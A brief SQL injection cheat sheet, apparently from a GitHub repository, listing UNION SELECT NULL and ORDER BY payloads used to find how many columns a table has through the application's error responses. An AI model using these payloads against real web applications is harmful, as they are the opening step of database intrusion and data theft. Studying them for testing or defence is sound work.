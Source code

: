 # SQL Injection
**In the payloads here, I use "-- -", this is just to show that there's a space after the "--", don't put another "-" after the "-- "**

## Getting The Number of Columns of a Table

### With UNION:

```SQL
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL-- -
```
(Continue until you **don't** get an error which is caused by not having the right amount of columns)

### With ORDER BY:

```SQL
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
(Continue until you **do** get an error which is caused by there not being a column to order by (1st column, 2nd column, etc)
